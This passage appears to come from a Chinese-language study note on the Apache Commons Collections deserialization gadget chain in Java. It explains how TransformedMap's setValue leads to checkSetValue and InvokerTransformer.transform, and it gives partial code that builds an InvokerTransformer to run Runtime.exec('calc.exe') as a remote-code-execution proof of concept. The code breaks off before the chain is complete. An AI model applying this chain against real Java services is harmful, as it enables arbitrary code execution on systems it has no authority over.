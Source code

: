 ​![image](assets/image-20240709090821-gjmazj4.png)所以`setValue`​实际上就是在`Map`​中对一组`entry(键值对)`​进行`setValue`​操作

也就是说我们调用`decorate`​方法的时候,遍历`Map`​数字,就会触发`setValue`​方法,就会触发`checkSetValue`​,从而执行我们准备的`invokeTransfromer.transform`​

```java
package org.example;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import javax.xml.ws.spi.Invoker;
import java.lang.Runtime;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;


public class Main {
    public static void main(String[] args) throws Exception{
//        System.out.println("Hello world!");
    Runtime runtime = Runtime.getRuntime();
//    Class c = Runtime.class;
//    Method method = c.getDeclaredMethod("exec", String.class);
//    method.setAccessible(true);
//    method.invoke(runtime,"calc");
//    通过反射实现RCE
//    通过InvokerTransformer类来弹计算器
    InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        HashMap<Object,Object> hashMap = new HashMap<>();
//        Map decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
//        Class<TransformedMap> transformedMapClass = TransformedMap.class;
//        Method checkSetValueMethod = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);
//        checkSetValueMethod.setAccessible(true);
//        checkSetValueMethod.invoke(decorateMap, runtime);
        hashMap.put("key", "value");
```